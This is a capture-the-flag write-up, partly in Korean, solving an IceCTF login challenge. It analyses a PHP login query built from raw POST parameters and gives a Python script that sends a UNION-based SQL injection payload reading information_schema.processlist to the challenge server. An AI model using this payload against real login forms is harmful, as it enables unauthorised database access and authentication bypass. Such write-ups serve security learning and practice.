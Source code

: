 ============================================================================================================
[IceCTF] Solve
============================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="post_data: {username=' union select 1,2,info from information_schema.processlist-- -}",arrowhead="normal"];
        step3 -> step2[label="login success",arrowhead="normal"];
    }

|

server 소스 분석
================================================================================================================

- PHP 
- POST 파라미터: username, password

.. code-block:: sql

    SELECT * FROM users WHERE 
    username='$_POST["username"]' AND 
    password='$_POST["password"]'

|

union select 
================================================================================================================

- information_schema.processlist

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "http://miners.vuln.icec.tf/login.php"

    payload = {
        "username": "' union select 1,2,info from information_schema.processlist-- -",
        "password": "1",
    }

    r = requests.post(url, data=payload, verify=False)

    print r.content

|